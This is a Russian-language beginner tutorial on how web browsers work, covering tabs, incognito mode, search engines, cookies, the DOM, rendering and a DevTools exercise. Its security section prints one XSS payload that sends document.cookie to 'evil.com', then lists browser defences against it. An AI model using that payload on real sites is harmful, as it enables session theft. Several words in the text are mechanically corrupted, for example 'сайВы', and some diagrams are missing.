


import ExternalPlayEmbed from '@site/src/components/ExternalPlayEmbed';


# Браузер

<div class="article-tags">
  <span class="tag tag-required">ОБЯЗАТЕЛЬНО</span>
  <span class="tag tag-beginner">ДЛЯ НОВИЧКОВ</span>
</div>

<span class="complexity-badge">Начальный уровень</span>

<div class="callout callout--tip">
  <div class="callout-title">Интерактив</div>

  <div class="callout-body">
  Демо ниже — нажимайте кнопки и смотрите, как это устроено. Ничего на компьютере не меняется.
</div>
  </div>


<ExternalPlayEmbed example="tools-network/browser-address-bar-play" title="Browser Address Bar" />

---

## Браузер

Когда Вы включаете компьютер или планшет и хотите посмотреть видео, почитать про динозавров или поиграть в онлайн-игру — Вы почти всегда запускаете **браузер**. Это может быть Chrome, Firefox, Safari, Edge или даже Яндекс.Браузер. Но почему именно *браузер*? Почему нельзя "просто включить интернет", как включаете свет?

Интернет — это огромная библиотека. Даже *целый город библиотек* — в одной хранятся книги, в другой — аудиозаписи, в третьей — фильмы, в четвёртой — интерактивные карВы сокровищ. Но у этой библиотеки нет единого входа, нет одного окошка выдачи, и книги в ней написаны на десятках языков — HTML, CSS, JavaScript, JSON и других.

**Браузер — это и есть Ваш читательский билет, библиотекарь и переводчик в одном лице.**  
Он знает, где искать нужную "книгу", как её правильно прочитать, и умеет превратить строчки кода в картинки, кнопки, видео и игры — так, чтобы Вы всё это увидели и мог с этим взаимодействовать.

Без браузера интернет остаётся "невидимым": как электричество в проводах — оно есть, но без лампочки Вы его не увидите. Браузер — это и есть эта лампочка. Он *включает* интернет *для Вас*.

---

#### Что такое браузер? (Формально и по-человечески)

**Браузер** — это программа, которая получает, интерпретирует и отображает веб-страницы и другие ресурсы из интернета.  
Слово *browser* в английском языке означает "листатель" или "просматриватель" — от глагола *to browse*, то есть "просматривать, листать, изучать не спеша".  

Технически браузер состоит из нескольких ключевых частей (мы вернёмся к ним чуть позже), но главная его задача — **запросить данные с сервера и показать их Вам в удобной форме**.

Простая аналогия:  
> Вы заходите в киоск с газетами. Там висит список — "Комсомольская правда", "National Geographic", "Мурзилка". Вы говорите продавцу — *"Дай, пожалуйста, “Мурзилку” за март"*.  
> Продавец идёт в подсобку (это — сервер), находит нужный номер, приносит его Вам. Вы берёте журнал, открываете — и читаете.  
>  
> В этом примере:  
> - Вы — пользователь,  
> - киоск — интернет,  
> - продавец — браузер,  
> - подсобка — сервер,  
> - журнал — веб-страница.

Браузер *не создаёт* контент. Он не пишет статьи, не снимает видео и не хранит сайВы у себя. Он *доставляет* и *показывает* то, что уже есть в сети.

---

#### Как работает браузер? (На уровне "чёрного ящика")

Рассмотрим самый простой сценарий: Вы вводите в адресную строку `https://example.com` и нажимаете Enter.

1. **Запрос имени**  
   Браузер сначала спрашивает у **DNS-сервера** (это как справочная телефонная книга интернета):  
   *"Где живёт example.com? Какой у него IP-адрес?"*  
   DNS отвечает: *"192.0.2.1"* — это числовой "домашний адрес" сайта.

2. **Установка соединения**  
   Браузер стучится в дверь сервера `192.0.2.1` по протоколу HTTPS (защищённая версия HTTP). Это как постучать в дверь и сказать: *"Здравствуйте, я хочу прочитать вашу главную страницу. Можно?"*  
   Сервер отвечает: *"Да, заходите"* — и соединение устанавливается.

3. **Получение данных**  
   Сервер присылает браузеру файлы — HTML (структура), CSS (оформление), JavaScript (поведение), картинки, шрифВы — всё, что нужно для страницы. Это может быть один файл или сотни.

4. **Рендеринг (отрисовка)**  
   Браузер "собирает пазл":  
   - сначала строит **DOM-дерево** (Document Object Model) — структуру страницы — заголовки, абзацы, кнопки;  
   - затем применяет **CSS-правила**, чтобы раскрасить и расположить элементы;  
   - потом запускает **JavaScript**, если он есть — например, чтобы кнопка заработала или чтобы запустилось видео;  
   - наконец, показывает готовую картинку на экране.

Этот процесс занимает доли секунды — но внутри происходит *очень много* согласований между программами, серверами и протоколами.

> **Интересный факт** — если открыть в браузере *Инструменты разработчика* (F12 → вкладка *Сеть*), можно *увидеть*, как браузер договаривается с сервером — сколько файлов загрузил, сколько времени занял каждый шаг, где были задержки. Это как смотреть через прозрачную стену в кухню ресторана — видно, как повара готовят блюдо.

---

#### Устройство браузера — знакомимся с "кабиной пилота"

Браузер — не просто "окошко с сайтом". Это сложный инструмент с продуманным интерфейсом. Давайте разберём его части — как в самолёте: каждая кнопка и индикатор здесь для чего-то.

---

##### 1. Адресная строка — главный руль

Это поле вверху окна, где Вы пишете адрес сайта. Её правильное название — ** Omnibox** (в Chrome и Edge) или просто **адресная строка**.  

Важно понимать:  
- Вы можете вводить адреса (`https://site.ru`), и **поисковые запросы** (`как нарисовать кота`). Браузер сам поймёт: если это не адрес — отправит запрос в поисковик (Google, Яндекс и т.д.).  
- Адрес состоит из частей:  
`https://` — протокол (как язык общения),  
`www.example.com` — доменное имя ("имя" сайта),  
`/page.html` — путь к конкретной странице.  
  Иногда ещё есть `?query=123` — параметры (например, номер видео на YouTube).

> ✅ *Совет*: никогда не вводите логины и пароли в адресную строку — они могут сохраниться в истории или подсказках.

---

##### 2. Вкладки — как отдельные столы в библиотеке

Каждая вкладка — это *независимый сеанс работы*. У неё свой адрес, своя история, своё состояние. Если в одной вкладке играет видео, а в другой открыта электронная почта — они не мешают друг другу.

Почему это важно?  
- Если сайт "завис" — можно закрыть только одну вкладку, а не весь браузер.  
- Можно организовать работу — "вкладка с уроками", "вкладка с играми", "вкладка с чатом".  
- Некоторые браузеры позволяют *группировать* вкладки — например, все про космос собрать в одну папку.

---

##### 3. История — дневник Ваших путешествий

Браузер помнит, куда Вы заходили. Это удобно: случайно закрыл страницу — можно вернуться через историю (`Ctrl+H`).  
Но: история хранится *локально*, на Вашем устройстве. Если Вы зайдёте с другого компьютера — её не будет (если только не включена синхронизация учётной записи).

---

##### 4. Закладки — "любимые полки"

Если сайт важный и Вы заходите туда часто (например, школа или онлайн-библиотека), его можно добавить в **закладки**.  
Это как поставить книгу на свою полку в библиотеке — не нужно каждый раз искать её по каталогу.

---

##### 5. Режим инкогнито — "временная карта читателя"

Когда Вы открываете вкладку инкогнито (обычно значок шляпы и очков 🕶️), браузер *не сохраняет*:  
- историю посещений,  
- закачки (сами файлы останутся, но запись о них — нет),  
- куки (небольшие файлы, которые сайВы кладут на Ваш компьютер для запоминания настроек),  
- данные форм (имена, пароли — если не сохранял вручную).

👉 Это **не делает Вас невидимым** в интернете!  
- Провайдер, сайт и администратор сети (например, в школе) всё равно видят, куда Вы ходили.  
- Режим инкогнито защищает *только от других пользователей этого же устройства*.  
Вы берёте чужую библиотечную карту на один день, читаете, а потом карта стирается. Но библиотекарь всё равно знает, кто вошёл в здание.

---

##### 6. Расширения — "насадки для суперсил"

Это небольшие программы, которые добавляют браузеру новые возможности:  
- блокировщик рекламы,  
- переводчик,  
- менеджер паролей,  
- инструменВы для учёбы (например, выделение текста и сохранение цитат).  

**Важно**: расширения имеют доступ ко *всем сайтам*, которые Вы открываете. Ненадёжное расширение может украсть пароли. Устанавливайте **только из официального магазина** (Chrome Web Store, Mozilla Add-ons) и читайте отзывы.

---

#### Mermaid-схема — как браузер получает страницу

Вот упрощённая диаграмма последовательности:



Эта схема показывает, что даже простое открытие сайта — это *диалог* между несколькими системами. Ни одна из них не работает в одиночку.

---

### Поисковые системы, адреса и правила хорошего тона в интернете

#### Поисковая система ≠ браузер. А в чём разница?

Многие дети (и даже взрослые!) путают эти понятия. Скажем прямо:

> **Браузер** — это *инструмент*, который показывает Вам сайты.  
> **Поисковая система** — это *сайт*, который помогает найти другие сайты.

Примеры:  
- Браузеры — Google Chrome, Mozilla Firefox, Microsoft Edge, Safari, Яндекс.Браузер.  
- Поисковые системы — Google, Яндекс, Bing, DuckDuckGo, Qwant.

Обратите внимание:  
- Вы можете пользоваться **Google в Firefox** — и это нормально.  
- Вы можете поставить **Яндекс как главный поиск в Chrome** — это настраивается.  
- А ещё есть браузер **Яндекс.Браузер**, который *по умолчанию* использует **Яндекс** как поисковик — но его можно поменять.

👉 Это как разница между **телевизором** и **телеканалом**:  
Телевизор (браузер) — устройство для показа.  
Каналы (поисковики, сайты) — контент, который через него идёт.

---

#### Как работает поиск? От запроса к результатам

Поисковая система — это *поисковый индекс*, который уже годами читает *все* сайВы в интернете и делает краткие тезисы. Его работа называется **индексация**.

Вот как это происходит по шагам:

1. **Паук (crawler / spider)**  
   Это программа, которая *ползает* по интернету — заходит на один сайт, читает его, переходит по всем ссылкам на другие страницы — и так далее, миллионы раз в день. Она не "думает", она просто собирает — текст, заголовки, метки, даты.

2. **Индекс**  
   Всё, что собрал паук, попадает в гигантскую базу данных — **поисковый индекс**. Это как каталог библиотеки, но по *словам* и *темам*.  
   Например: слово *динозавр* встречается на странице `site.ru/paleo`, и там же есть *тираннозавр*, *мезозой*, *ископаемые* → система запоминает: *эта страница — про динозавров*.

3. **Запрос**  
   Вы набираете в адресной строке: `как выглядит трицератопс`.  
   Браузер отправляет этот запрос поисковику (например, Google).  
   Поисковик ищет в своём индексе страницы, где есть эти слова — и ранжирует их по *релевантности*:  
   - Насколько точно текст отвечает на вопрос?  
   - Насколько авторитетен сайт? (Часто ссылаются — значит, доверяют)  
   - Насколько удобна страница? (Быстро грузится? Читаемый шрифт?)  
   - Есть ли картинки? Видео?  

4. **Выдача (SERP)**  
   Вы видите список — обычно 10 результатов на странице. Самые релевантные — наверху.  
   Часто сверху ещё бывают:  
   - **Карточка знаний** (fact box) — кратко о трицератопсе, со схемой.  
   - **Похожие запросы** — "трицератопс размеры", "трицератопс против тираннозавра".  
   - **Реклама** — помечена подписью *"Реклама"*. Это платные объявления.

🔍 Попробуйте провести эксперимент:  
- Введите в Google `трицератопс` → посмотрите на карточку знаний. Где, по ссылке внизу, взята информация? (Часто — из Википеди или научных баз.)  
- Сравни выдачу в Яндексе и DuckDuckGo. Чем они отличаются? Какой выглядит "нейтральнее"?

> **Важно**: поисковые системы *не знают всего*. Они знают только то, что успели проиндексировать. Если сайт новый, закрытый (требует логина) или запретил индексацию — его не будет в выдаче.

---

#### Адресная строка — многофункциональный инструмент

Раньше (лет 15 назад) в браузерах были *отдельно*:
- строка поиска (куда писали "как сварить пельмении"),  
- и строка адреса (куда вводили `https://povar.ru`).

Сейчас почти везде — **единая строка**, и это очень удобно, но требует понимания:

| Что Вы ввели | Что сделает браузер |
|-------------|---------------------|
| `https://google.com` | Перейдёт *прямо* на сайт Google — без поиска. |
| `google.com` | Добавит `https://` автоматически и перейдёт туда. |
| `как завязать галстук` | Не найдёт домена — отправит запрос в *поисковик по умолчанию*. |
| `wiki:галстук` | (В некоторых браузерах) сразу откроет статью в Википеди — это **поисковый ярлык**. |

👉 **Совет**: если хотите *гарантированно* попасть на сайт — вводи полный адрес с `https://`. Так Вы не попадёте на фишинговую копию (об этом позже).

---

#### Правила работы с браузером — "цифровая гигиена"

Работа с браузером — как с кухней: можно приготовить шедевр, а можно отравиться. Есть базовые правила, которые делают использование интернета безопасным, быстрым и приятным.

---

##### 1. Не доверяйте первому, что увидели

> "В интернете всё правда, особенно то, что написано крупным шрифтом" — шутка, но в ней доля истины.

Научись задавать вопросы:  
- Кто автор? Это учёный, журналист, школьник, бот?  
- Когда опубликовано? (Статья 2005 года про "новейшие смартфоны" — уже не актуальна.)  
- Есть ли ссылки на источники?  
- Выглядит ли сайт профессионально? (Перекошенные картинки, грамматические ошибки, всплывающая реклама — тревожные звоночки.)

---

##### 2. Пароли — хранилки и бумажка

Браузер может *запоминать пароли*. Это удобно, но:
- Если устройство общее — любой, кто сядет за него, получит доступ к Вашим аккаунтам.  
- Некоторые браузеры хранят пароли *локально* (только на этом компьютере), другие — в облаке (требуется вход в аккаунт Google/Microsoft).

**Рекомендация**:  
- Для важных аккаунтов (почта, школа) используйте **менеджер паролей** (например, Bitwarden — бесплатный и открытый).  
- Никогда не используйте один и тот же пароль на разных сайтах.  
- Включите двухфакторную аутентификацию (2FA), где возможно — например, через приложение Google Authenticator.

---

##### 3. Куки и кэш — зачем и чем опасны

- **Кэш** — временная "копия" частей сайта (картинки, стили), чтобы при следующем заходе страница открывалась быстрее.  
- **Куки (cookies)** — маленькие файлы, которые сайт оставляет у Вас, чтобы "запомнить":  
  - Вы уже вошёл в аккаунт,  
  - выбрал язык "русский",  
  - положил товар в корзину.

Проблема:  
- *Трекинговые куки* (от рекламных сетей) следят, какие сайВы посещаете, чтобы показывать "персонализированную рекламу".  
- Некоторые куки живут месяцы и даже годы.

🔧 Что можно делать:  
- Раз в месяц очищай кэш и куки (в настройках → "Конфиденциальность").  
- Включите режим "Блокировать сторонние куки" (есть в Chrome, Firefox, Safari).  
- Используйте расширения вроде **uBlock Origin** — они блокируют трекеры.

---

##### 4. Загрузки — не всё, что блестит — безопасно

Когда Вы скачиваете файл (`.exe`, `.zip`, `.apk`), браузер предупреждает: *"Этот файл может навредить устройству"*.  
Не игнорируй это!  

Проверьте перед запуском:  
- Откуда файл? (С официального сайта — хорошо; с форума — подозрительно.)  
- Есть ли цифровая подпись? (Для `.exe` в Windows: клик правой кнопкой → "Свойства" → вкладка "Цифровые подписи".)  
- Проверьте через сервис VirusTotal (загружаете файл — он проверяет его 70+ антивирусами).

---

#### Как браузер помнит Вас — сесси и синхронизация

Если Вы входите в аккаунт Google в Chrome или в аккаунт Microsoft в Edge — браузер может *синхронизировать* данные между устройствами:

| Синхронизируется | Пример |
|------------------|--------|
| Закладки | Добавил в школе — появилось дома |
| История | Продолжаете чтение с того места, где остановился |
| Пароли | (Только если разрешили явно) |
| Вкладки | "Открыть на другом устройстве" |

🔒 Важно:  
- Синхронизация использует **шифрование**.  
- Но если кто-то получит доступ к Вашему аккаунту — получит и доступ к этим данным.  
- Никогда не входи в учётную запись на общих компьютерах (библиотека, школа) — и *всегда* нажимайте "Выйти".

---

#### Путь поискового запроса

```mermaid
flowchart TD
    A[Пользователь вводит "почему небо синее"] --> B{Браузер}
    B -->|Это не адрес| C[Отправляет запрос в поисковик]
    C --> D[Поисковик: анализ + поиск в индексе]
    D --> E[Формирование выдачи]
    E --> F[Пользователь видит результаты]
    F --> G{Выбирает ссылку}
    G -->|Например, "giphy.com/Наука"| H[Браузер запрашивает этот сайт у DNS]
    H --> I[DNS → IP-адрес]
    I --> J[Запрос на сервер giphy.com]
    J --> K[Получение HTML/CSS/JS/картинок]
    K --> L[Отрисовка страницы]
    L --> M[Пользователь смотрит GIF с рассеянием Рэлея]
```

Эта схема показывает: даже "простой поиск" — это *две независимые цепочки*:  
1. Диалог с поисковиком.  
2. Затем — полноценная загрузка выбранного сайта.

---

### Как браузер "лепит" страницу

#### Веб-страница

Когда Вы заходите на сайт, например `https://elma365.ru` или `https://scratch.mit.edu`, у Вас создаётся впечатление, что перед Вами — готовая "фотография" с кнопками и текстом. Но это иллюзия.

На самом деле:  
> **Веб-страница — это текстовый файл с инструкциями.**  
> Браузер — это *мастер-сборщик*, который по этим инструкциям строит то, что Вы видите.

Аналогия: файл `index.html` — набор деталей, браузер — сборщик по правилам разметки и стилей. Готовую страницу Вы видите после разбора HTML, CSS и скриптов.

Браузер строит страницу из трёх основных компонентов:

| Компонент | Назначение | Аналогия |
|-----------|------------|----------|
| **HTML** (HyperText Markup Language) | Определяет *структуру*: где заголовок, где абзац, где кнопка, где картинка. | Каркас дома: стены, двери, окна — что и где находится. |
| **CSS** (Cascading Style Sheets) | Определяет *внешний вид*: цвета, шрифты, отступы, анимации. | Отделка: обои, краска, освещение, мебель. |
| **JavaScript** (JS) | Определяет *поведение*: что происходит при клике, как обновляется время, как играет видео. | Электрика и автоматика: двери, которые открываются сами, свет, реагирующий на движение. |

Важно: эти три слоя *независимы*. Можно отключить JS — страница останется, но перестанет "оживать". Можно отключить CSS — текст останется, но станет чёрно-белым и "сырым". Но без HTML — ничего не будет: это фундамент.

---

#### DOM — дерево страницы (и почему оно называется "деревом")

Когда браузер получает HTML-файл, он не просто читает его как книгу. Он *строит модель* — **DOM (Document Object Model)**.

DOM — это иерархическая структура, похожая на генеалогическое дерево или схему организации:

- У страницы один "корень" — `<html>`.  
- У `<html>` два "ребёнка": `<head>` (служебная информация) и `<body>` (то, что видит пользователь).  
- У `<body>` могут быть — `<header>`, `<main>`, `<footer>`.  
- В `<main>` — `<h1>` (заголовок), `<p>` (абзац), `` (картинка), `<button>` (кнопка)…  
- Каждый элемент может иметь *своих* детей: например, `<ul>` (список) содержит `<li>` (пункты).

Пример:

```html
<html>
  <body>
    <header>
      <h1>Моя веб-страница</h1>
    </header>
    <main>
      <p>Привет, мир!</p>
      <button>Нажмите меня</button>
    </main>
  </body>
</html>
```

В виде дерева это выглядит так:



Почему это важно?  
Потому что **всё, что происходит на странице, — это изменение этого дерева**.  
- Вы нажимаете кнопку → JavaScript *изменяет* DOM: например, добавляет новый `<p>` с надписью "Спасибо!".  
- Вы вводите текст в форму → DOM-элемент `<input>` *обновляет* своё свойство `value`.  
- Вы прокручиваете страницу → браузер просто двигает "окно просмотра" над уже построенным деревом.

---

#### Как браузер рисует страницу — краткий жизненный цикл

Процесс открытия страницы можно разбить на четыре фазы:

1. **Парсинг HTML → построение DOM**  
   Браузер читает HTML построчно. Как только встречает ``, он сразу создаёт узел в DOM, а загрузку отправляет в фон.

2. **Загрузка CSS → построение CSSOM**  
   CSS тоже анализируется и превращается в **CSSOM (CSS Object Model)** — дерево стилей. Оно *сливается* с DOM → получается **Render Tree** (дерево отрисовки), содержащее только те элементы, которые *видимы* (например, `display: none` — не входят).

3. **Layout (макет)**  
   Браузер считает:  
   - Какой ширины и высоты каждый элемент?  
   - Где он расположен относительно других?  
   Это сложная задача — особенно если есть `flex`, `grid`, плавающие блоки.

4. **Paint (прорисовка) + Composite (сборка)**  
   На этом этапе браузер:  
   - Рисует пиксели (текст, границы, фон),  
   - Накладывает слои (например, видео поверх текста),  
   - Показывает результат на экране.

Если потом запускается JavaScript и, скажем, меняет цвет кнопки — браузер *не перестраивает всё с нуля*. Он делает **частичное обновление**: только перерисовывает затронутые элементы. Это называется **рефлоу** (изменение геометри) и **репейнт** (изменение внешнего вида).

> 🖥️ **Эксперимент для любопытных**:  
> - Откройте любой сайт.  
> - Нажмите `F12` → вкладка **Elements**.  
> - Кликните правой кнопкой на любом элементе → **Break on → subtree modifications**.  
> - Теперь, например, введите текст в поисковую строку Google.  
> — DevTools *остановит* страницу в момент, когда DOM меняется! Вы увидите, как появляются подсказки — как новые `<li>` в списке.

---

#### Мини-проект — измени сайт… не имея прав на него

Да, это возможно — и это абсолютно легально, если Вы не сохраняете изменения и не используете их в коммерческих целях. Это как примерить одежду в примерочной: Вы можете всё менять, но уйти с магазина — и всё вернётся в исходное состояние.

**Задача: сделать главную страницу Wikipedia веселее**

1. Зайдите на `https://ru.wikipedia.org`.  
2. Нажмите `F12` → вкладка **Elements**.  
3. Найдите в дереве элемент с текстом *"Википедия"* (обычно это `<h1>` или `<div>` с `id="p-logo"`).  
4. Кликните по нему правой кнопкой → **Edit as HTML**.  
5. Измени текст: например, на `<span>Вики-ПЕПСИ</span>`. Нажмите Enter.  
   → Заголовок изменился! (Но только у Вас, и только до перезагрузки.)  
6. Теперь кликните по элементу → в правой панели найдите вкладку **Styles**.  
7. Найдите свойство `color` или добавь новое:  
```css
   color: magenta !important;
   font-family: 'Comic Sans MS';
   text-shadow: 2px 2px 4px rgba(0,0,0,0.5);
```  
   → Текст стал розовым, "весёлым" и с тенью.

Что Вы только что сделали?  
- Вы *редактировал DOM и CSSOM в реальном времени*.  
- Вы увидели, как изменения мгновенно отражаются на экране.  
- Вы поняли: сайт — это *динамическая конструкция*, которую можно изучать и менять.

Напоминание: это *локальное* изменение. Никакие серверы не пострадали. Вы — исследователь, а не хакер.

---

#### Безопасность "изнутри" — почему JS — это и сила, и риск

JavaScript — единственный из трёх слоёв, который может:  
- Читать и менять DOM,  
- Делать запросы на другие серверы,  
- Доступ к геолокации, микрофону, камере (с разрешения!),  
- Хранить данные в `localStorage` (даже после закрытия вкладки).

Это делает JS невероятно мощным. Но и опасным.

Пример угрозы — **межсайтовый скриптинг (XSS)**:  
> Представьте форум, где можно писать комментари. Злой пользователь пишет:  
> ```html
> <script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>
> ```  
> Если форум *не проверяет* ввод — этот код выполнится у всех, кто откроет страницу.  
> `document.cookie` — это куки текущего сайта. Они уйдут на `evil.com`.  
> Если среди куки есть сессионный идентификатор — злоумышленник сможет *войти в аккаунт от Вашего имени*.

Как браузеры защищаются?  
- **Песочница (sandbox)**: JS на одном сайте *не может* читать DOM другого сайта (политика same-origin).  
- **CSP (Content Security Policy)**: сайт может запретить выполнение "чужих" скриптов.  
- **Защита от отслеживания**: блокировка `fingerprinting` (сбора данных об устройстве для идентификации).

Вы можете помочь себе:  
- Не нажимайте на подозрительные ссылки в чатах.  
- Используйте браузеры с хорошей защитой (Firefox, Brave).  
- Установите **NoScript** (для опытных) или **uMatrix** — они дают *ручное* управление, какие скрипВы запускать.

---
